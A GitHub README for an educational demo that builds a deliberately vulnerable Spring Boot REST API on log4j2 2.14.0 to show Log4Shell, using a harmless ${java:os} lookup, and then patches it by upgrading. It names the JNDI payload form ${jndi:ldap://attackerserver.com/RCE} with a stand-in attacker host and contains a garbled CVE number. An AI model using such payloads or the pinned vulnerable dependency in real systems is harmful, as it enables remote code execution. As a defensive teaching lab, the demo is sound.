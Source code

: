 # [Vulunerable LOG4J REST API](https://github.com/WISeAgent/log4j2) Demo - a non-intrusive and user friendly version
Apache Log4j2 2.0-beta9 through 2.12.1 and 2.13.0 through 2.15.0 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled.  

**tl;dr**

Log4Shell vulnerability in plain English:

1. Vulnerable Web application trusts the user data which shouldn't be trusted, eg. this demo project

2. Vulnerable Log4j2 is used by web app for logging 

3. The lookup() implementation from org.apache.logging.log4j.core package in the Vulnerable Log4j2 envluates variable ${key:value} in log message and substitute the variable with value. It opens the door and exposes the vulnerability.

Once the door is opened, all you need is your imagation/creativity to craft various of payloads and delivery methods to exploit this log4j2 vulnerability.

The CVS-2021-42288 uses carefully brafted ${jndi:ldap://....} payout.

Spring Boot is using logback by default. It is supporting the use of log4j2 and hance it's exposed to this vulnerability if Log4j2 is not patched.

**Hacking is illegal!** It's not a good idea to encourage exploitation of this vulunerability. That being said, developer/blue team member should have better understanding on the "how" so to build a better and secured application.

The purpose of this demo is for developer/blue team member to understand how older version of log4j2 is being exploitted and how to patch it. Instead of using ${jndi:ldap://attackerserver.com/RCE} as payload, we display the OS version instead in this demo.  

## Create a New Maven Demo Project for Log4Shell(CVE-2021-44228)
### 1. Create an empty project using Spring CLI
    spring init --name=vul-log4j2 packaging=jar --package-name=au.com.wiseagent.springboot.log4j2 -a=vul-log4j2 --dependencies=web log4j2
    
### 2. Update pom.xml to use vulnerable version of log4j2
- Under <properties> section, inster a line to use vulnerable log4j2 verion, eg. 2.14.0  

      <properties>
      <java.version>1.8</java.version>
      <!-- to use the vulnerable version: CVE-2021-44228 -->
      <log4j2.version>2.14.0</log4j2.version>
      </properties>
  
- To disable default logback, and using log4j2  

      <!-- Exclude Spring Boot's Default Logging -->
      <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter</artifactId>
        <!-- disable default logging -->
        <exclusions>
          <exclusion>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-logging</artifactId>
          </exclusion>
        </exclusions>
      </dependency>

      <!-- Add Log4j2 Dependency -->
      <dependency>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-log4j2</artifactId>
      </dependency>
### 3. Import the Maven project to your Eclipse IDE

### 4. Use Log4J2 log, to log environment variable ${java:os} as INFO instead of ${jndi:ldap://...} trigger RCE
Here is the cutdown version of the REST API implemention pass payload as RequestParam.  
For demo purpose, instead of sanitized the payload, it's hard coded to a non-instructive operation, to log the environment value for OS 

    package au.com.wiseagent.springboot.log4j2;

    import org.springframework.boot.SpringApplication;
    import org.springframework.boot.autoconfigure.SpringBootApplication;
    import org.springframework.web.bind.annotation.GetMapping;
    import org.springframework.web.bind.annotation.PathVariable;
    import org.springframework.web.bind.annotation.RequestParam;
    import org.springframework.web.bind.annotation.ResponseBody;
    import org.springframework.web.bind.annotation.RestController;
    import org.apache.logging.log4j.LogManager;
    import org.apache.logging.log4j.Logger;

    @SpringBootApplication
    @RestController
    public class VulLog4j2Application {
        private static Logger logger = LogManager.getLogger(VulLog4j2Application.class);
        public static void main(String[] args) {
          SpringApplication.run(VulLog4j2Application.class, args);
        }

      @GetMapping("/PayLoad")
      @ResponseBody
        public String PayLoad(@RequestParam  String payload) {
        payload="${java:os}"; // override the payload
        logger.info(payload);
        return "payload received" + payload;
      }
    }

 ### 5. Start your REST API service from IDE or from command line  
    
        java -jar target/vul-log4j2-0.0.1-SNAPSHOT.jar
 
    
From your browser, entry to the following to trigger the REST API call.  
  
    http://localhost:8080/PayLoad?payload=$%7Bjava:os%7D
  
  ![image](https://user-images.githubusercontent.com/853925/147844381-a20bc303-47eb-4d8f-9c1e-582c9bd6d017.png)

**It can be observed that the variable ${java:os} has been evaluated, and replaced by the OS value in the log.**
## Patch your application for Log4Shell
### Update pom.xml file to use updated version of log4j2, which patched the CVE-2021-44228

      <properties>
      <java.version>1.8</java.version>
      <!-- to use updated version patched the CVE-2021-44228 -->
      <log4j2.version>2.17.0</log4j2.version>
      </properties>

### Stop and Start your REST API service from IDE or from command line again
From your browse, entry to the following to trigger the REST API call, and noticed that the ${java:OS} variable has been replace by the OS value in the INFO log.  
  
    http://localhost:8080/PayLoad?payload=$%7Bjava:os%7D
![image](https://user-images.githubusercontent.com/853925/147844478-65d0da64-f98a-4f11-b45a-d9a420f1ed04.png)


**It can be observed that the variable ${java:os} has not been evaluated, and it has elimiated the opportunity that an unsanitized user input being used to exploit the log4j2 vulnerability.**
